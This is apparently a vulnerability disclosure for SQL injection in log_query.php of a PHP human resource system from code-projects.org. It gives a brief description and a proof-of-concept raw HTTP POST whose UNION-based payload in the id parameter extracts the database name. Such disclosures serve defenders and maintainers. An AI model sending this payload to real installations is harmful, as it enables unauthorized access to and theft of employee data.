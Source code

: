 # Human Resource Integrated System has SQL Injection in log_query.php

## supplier 

https://code-projects.org/human-resource-integrated-system-in-php-with-source-code/

## Vulnerability file

log_query.php

## Describe

The id parameter in log_query.php is vulnerable to SQL injection due to improper input validation and the absence of parameterized queries. An attacker can exploit this weakness by injecting malicious SQL statements to manipulate database queries, which may lead to unauthorized access, data extraction, or modification of sensitive information. 

![image-20250823015710606](image/image-20250823015710606.png)

## POC

```
POST /log_query.php HTTP/1.1
Host: hris
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=uacifcaoa5pohuc94hg8dnohh5
Connection: close

save=1&id=-1'+union+select+1,1,1,1,1,1,1,1,1,(select+database()),1,1,1--+
```

Send this request, you can get the databsae name.